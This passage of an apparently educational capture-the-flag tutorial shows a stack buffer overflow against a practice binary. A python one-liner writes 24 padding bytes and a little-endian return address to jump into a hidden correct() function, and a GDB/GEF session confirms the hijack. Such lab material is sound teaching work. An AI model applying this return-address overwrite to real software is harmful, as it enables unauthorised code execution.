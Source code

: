 As we can see in the assembler dump above, `0x0000555555555175` is the address of the first line of code in `correct()`, so all we need to do now is change the return address to `0x0000555555555175`. Let's use the following python code to modify the return address. (Note that the address will probably be different on your computer, so don't run this next line of code without first changing the address to be the one you found on your computer.)

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*24 + b'\x75\x51\x55\x55\x55\x55\x00\x00')" > test
```

Note that we must convert the big-endian value `0x0000555555555175` into its little-endian equivalent when we use this command. When we run the program inside GDB using the test file as input, we can actually see that we're jumping into the `correct()` function when the `ret` instruction is executed. We can use the `break` or `b` command to setup a breakpoint, which will allow us to pause the program and see what's going on.

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*24 + b'\x75\x51\x55\x55\x55\x55\x00\x00')" > test

$ gdb password
GNU gdb (Debian 10.1-1.4) 10.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
76 commands loaded for GDB 10.1 using Python engine 3.9
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from password...
(No debugging symbols found in password)
gef➤  b *main+114
Breakpoint 1 at 0x1206
gef➤  run < test
Starting program: /home/nihaal/Desktop/ctf-courses/Pwn/PWN 200/password < test
Enter the password: Invalid password.

Breakpoint 1, 0x0000555555555206 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00007ffff7edded3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffdfb8  →  0x0000555555555175  →  <correct+0> push rbp
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00005555555592a0  →  "Enter the password: Invalid password.\n"
$rdi   : 0x00007ffff7fb0670  →  0x0000000000000000
$rip   : 0x0000555555555206  →  <main+114> ret
$r8    : 0x12
$r9    : 0x00007ffff7fadbe0  →  0x000055555555a6b0  →  0x0000000000000000
$r10   : 0x00007ffff7feeb70  →  <strcmp+2864> pxor xmm0, xmm0
$r11   : 0x246
```